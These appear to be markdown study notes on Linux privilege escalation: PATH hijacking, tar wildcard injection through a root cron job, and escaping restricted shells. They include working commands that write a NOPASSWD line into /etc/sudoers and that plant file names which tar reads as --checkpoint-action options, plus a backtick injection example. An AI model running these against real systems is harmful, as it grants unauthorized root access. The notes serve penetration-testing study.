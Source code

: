 -----
# PATH ABUSE
-----
- If we can add current directory to the $PATH of the system, we can execute any malicious code.
- Adding PATH to the system:
```bash
PATH=.:$PATH
export PATH
```

-----
# WILDCARD ABUSE
-----
|**Character**|**Significance**|
|---|---|
|`*`|An asterisk that can match any number of characters in a file name.|
|`?`|Matches a single character.|
|`[ ]`|Brackets enclose characters and can match any single one at the defined position.|
|`~`|A tilde at the beginning expands to the name of the user home directory or can have another username appended to refer to that user's home directory.|
|`-`|A hyphen within brackets will denote a range of characters.|

- `tar` command
	- `--checkpoint-action` permits an EXEC action to be executed when a checkpoint is reached.
		- By creating files with these names, when the wildcard is specified, `--cehckpoint=1` and `--checkpoint-action=exec=sh root.sh` is passed to `tar` as command line options
	- Suppose we have a cron job that runs every minute to back to the /root directory
```bash
mh dom mon dow command
*/01 * * * * cd /root && tar -zcf /tmp/backup.tar.gz *
```

- Leverage the wild card in the cron job to write out the necessary commands as file names
```bash
echo 'echo "cliff.moore ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > root.sh
echo "" > "--checkpoint-action=exec=sh root.sh"
echo "" > --checkpoint=1
# Check to see necessary files are created
ls -la
```
- Once the cron runs, we can check for sudo privilege
```bash
sudo -l
```

-----
# ESCAPING RESTRICTED SHELLS
----
- Restricted shells = shells that limit users to a set  of specific commands
- Some common restricted shells: [Restricted Bourne shell](https://www.gnu.org/software/bash/manual/html_node/The-Restricted-Shell.html) (`rbash`), [Restricted Z shell](https://manpages.debian.org/experimental/zsh/rzsh.1.en.html) (`rzsh`), [Restricted Korn shell](https://www.ibm.com/docs/en/aix/7.2?topic=r-rksh-command) (`rksh`)

## Escaping
#### Command Injection
- Assume a system only allows `ls` command with `ls -l` or `ls -a`. We can inject `pwd` command
```bash
ls -l `pwd`
```
#### Some other ways to escape restricted shells
- Command Substitution
- Command Chaining
- Environment Variables
- Shell Functions